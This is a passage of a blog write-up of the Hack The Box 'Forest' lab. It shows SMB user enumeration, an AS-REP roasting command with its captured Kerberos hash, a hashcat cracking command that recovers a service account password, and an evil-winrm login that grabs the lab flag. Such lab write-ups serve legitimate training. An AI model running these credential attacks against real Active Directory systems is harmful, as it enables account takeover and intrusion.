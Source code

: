 ```yaml
---
title:  "Hack The Box - Forest"
date:   2020-03-19
categories: [ctf]
tags: [linux, Active Directory, Kali, Pentest, writeups, ctf]
---
```

My write-up / walktrough for Forrest on Hack The Box.

IP is 10.10.10.161, forest.htb

## Enumeration
`nmap -sV -p 1-10000 -T5 forest.htb`

![nmap](/images/forest/nmap.png)

used `legion`

smbenum gave me 

```
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```

able to ASRepRoast

`sudo python3 /usr/local/bin/GetNPUsers.py -dc-ip 10.10.10.161 -no-pass -usersfile user.txt htb.local/
`

```$krb5asrep$23$svc-alfresco@HTB.LOCAL:206e99c105941b80bb9ce49a11f10b0a$33d27576ae3f6c4c01f30b03fe45ae0eb20a12d2768ca6cf0e2d747e38e2406181c5d030bd9b0a9f7eeebef78955939b5b66a799b760723d1a5ed32471bf9234d2b0a2e08f71330cf36b76b2b43a17776df8fea2155674009953f336e852f7b14a6ad5ef11619dcf7761300dd1bc7bda3363f6303448f0759399339ea26ca964f2ace2e3d7959c7ce22bf12b4f756f67b1ba52795cbd97ed3e04dbfb8b8ee37b2f253bc8637dcb2270225eee5e625e8f2e77c085e62bad96bd003b39e961373f61cb8e50411fb2d36a548cd5721eb8f7aa271b62ba32c4fc8fe94b687c9943bf7ce5db4229da
```

![asreproast](/images/forest/asreproast.png)


`GetNPUsers.py` can create a well formated file right away by passing the parameter `-format hashcat -outputfile userhash.txt`

Done so, I could afterwards crack the hash with `hashcat -m18200 --force userhash.txt  /usr/share/wordlists/rockyou.txt` which gives me the credentials `svc-alfresco:s3rvice`

![hashcat](/images/forest/hashcat.png)

this credentials, I could use to establish a connection with winrm (`evil-winrm -i forest.htb -u svc-alfresco -p s3rvice
`) and grab the user-flag `e5e4e47ae7022664cda6eb013fb0d9ed`.

![userflag](/images/forest/userflag.png)